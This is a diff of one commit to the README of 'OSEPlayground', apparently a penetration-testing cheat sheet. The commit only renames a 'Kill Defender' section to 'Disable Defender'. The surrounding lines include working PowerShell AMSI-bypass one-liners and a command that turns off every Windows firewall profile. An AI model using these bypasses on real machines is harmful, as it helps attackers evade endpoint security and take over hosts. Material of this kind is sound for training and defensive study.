

Before and after one commit to Extravenger/OSEPlayground, a Markdown page: README.md, 2 parts joined by grey strips. GitHub-like rendering.

````diff
--- a/README.md
+++ b/README.md
@@ -6,7 +6,7 @@
 - [2. Map The Network](#Map-The-Network)
 - [3. AMSI-Bypass](#AMSI-Bypass)
 - [4. Windows Privilege Escalation](#Windows-Privilege-Escalation)
-- [5. Kill Defender](#Kill-Defender)
+- [5. Disable Defender](#Disable-Defender)
 - [6. Useful Basic Commands](#Useful-Basic-Commands)
 - [7. Escalate to SYSTEM via Schedule Task](#Escalate-to-SYSTEM-via-Schedule-Task)
 - [8. Enable RDP and RestrictedAdmin](#Enable-RDP-and-RestrictedAdmin)
@@ -61,7 +61,7 @@ $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c
 (([Ref].Assembly.gettypes() | ? {$_.Name -like "Amsi*utils"}).GetFields("NonPublic,Static") | ? {$_.Name -like "amsiInit*ailed"}).SetValue($null,$true)
 ```
 
-# Kill Defender
+# Disable Defender
 
 ```
 netsh advfirewall set allprofiles state off
````
